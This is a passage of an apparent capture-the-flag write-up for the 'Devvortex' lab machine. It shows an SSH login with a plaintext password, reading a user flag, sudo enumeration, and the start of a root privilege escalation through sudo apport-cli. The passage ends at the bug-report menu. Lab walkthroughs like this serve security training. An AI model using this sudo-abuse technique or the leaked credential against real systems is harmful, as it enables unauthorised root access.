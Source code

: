 ### SSH to logan
```bash
$ ssh logan@localhost
Password: tequieromucho
logan@devvortex:~$ cat users.txt
FLAG................
```

## Privilege Escalation

### Enumeration
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Sorry, try again.
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

### Exploit : apport-cli as root
```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?

Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
```
